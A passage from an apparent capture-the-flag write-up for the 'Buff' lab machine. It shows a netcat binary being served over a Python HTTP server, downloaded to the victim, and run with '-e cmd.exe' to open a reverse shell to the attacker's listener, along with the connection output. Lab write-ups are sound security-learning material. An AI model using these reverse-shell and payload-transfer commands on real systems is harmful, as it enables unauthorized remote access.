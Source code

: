 so now we run the script with target url as parameter

<img src="/images/buff/boku.png" />

Now we need to upgrade our shell because moving around in this one is something I don't intend to do. So we transfer the netcat binary for a reverse shell. [Find it here](https://github.com/int0x33/nc.exe?files=1). So I start python server with command `python3 -m http.server 5555` and now onto the victim machine we download these files with `http://YourIPAddress:5555/nc.exe -o nc.exe`

```
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.10.198 57228 received!
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>

```

and start a netcat listener on your machine with `nc -lvp 1234` then `C:\xampp\htdocs\gym\upload\nc.exe yourIP 1234 -e cmd.exe` on the attacking machine. You should have a command prompt now.

And we are already user shaun which means we can try and get the user flag. Fair enough we found the users.txt in the Desktop of shaun. Easiest user flag I have ever seen, I bet the root flag whould be easy too(**WRONG!**).
